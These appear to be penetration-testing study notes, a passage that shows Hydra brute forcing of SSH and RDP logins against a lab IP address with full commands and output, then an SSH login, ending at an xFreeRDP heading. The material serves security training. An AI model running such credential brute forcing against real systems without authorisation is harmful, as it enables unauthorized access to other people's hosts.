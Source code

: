 #### Hydra - SSH

We can use a tool such as `Hydra` to brute force SSH. This is covered in-depth in the [[Login_Brute_Forcing]] module.

```shell-session
[!bash!]$ hydra -L user.list -P password.list ssh://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:03:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
```

To log in to the system via the SSH protocol, we can use the OpenSSH client, which is available by default on most Linux distributions.

```shell-session
[!bash!]$ ssh user@10.129.42.197

The authenticity of host '10.129.42.197 (10.129.42.197)' can't be established.
ECDSA key fingerprint is SHA256:MEuKMmfGSRuv2Hq+e90MZzhe4lHhwUEo4vWHOUSv7Us.
```

## Remote Desktop Protocol (RDP)

Microsoft's [Remote Desktop Protocol](https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) (`RDP`) is a network protocol that allows remote access to Windows systems via `TCP port 3389` by default. RDP provides both users and administrators/support staff with remote access to Windows hosts within an organization.

![[Screenshot 2025-02-20 at 21.26.19.png]]#### Hydra - RDP

We can also use `Hydra` to perform RDP bruteforcing.

```shell-session
[!bash!]$ hydra -L user.list -P password.list rdp://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:05:40
```

Linux offers different clients to communicate with the desired server using the RDP protocol. These include [Remmina](https://remmina.org/), [rdesktop](http://www.rdesktop.org/), [xfreerdp](https://linux.die.net/man/1/xfreerdp), and many others. For our purposes, we will work with xfreerdp.

#### xFreeRDP
